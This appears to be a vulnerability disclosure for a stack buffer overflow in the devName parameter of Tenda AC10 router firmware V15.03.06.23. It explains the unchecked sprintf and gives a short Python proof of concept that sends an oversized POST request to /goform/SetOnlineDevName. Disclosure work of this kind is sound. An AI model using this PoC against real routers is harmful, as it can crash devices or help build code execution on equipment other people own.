 stackflow\_formSetDeviceName
----------------------------

### Overview

*   Equipment website：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   Firmware download website：[AC10V1.0升级软件](https://www.tenda.com.cn/material/show/102734)

### Affected version

V1.0 V15.03.06.23

### Vulnerability details

Tenda AC10 V1.0 V15.03.06.23 The devName argument in the formSetDeviceName function causes a stack overflow and passes it to the function "set\_device\_name" without any length checking. Once the ROP chain is built, malicious code can be executed.
![image](https://github.com/user-attachments/assets/5d1c6efd-62dc-4064-8011-0dffee096432)

After getting the mac and devName parameters, type set\_device\_name, check only if the parameter "dev\_name" exists, and use sprintf to pass it to the "mib\_name" array, which will overflow the stack if the length exceeds it

![image](https://github.com/user-attachments/assets/8f33ad4a-94f9-47f2-b35e-f1b6d9420636)


### poc

```text-plain
import requests
ip = '192.168.159.100'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
   "mac": '9c:fc:e8:da:9c:5b',
   "devName": 'Raining'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

![image](https://github.com/user-attachments/assets/df91aea1-335e-4519-8853-273238cf1623)

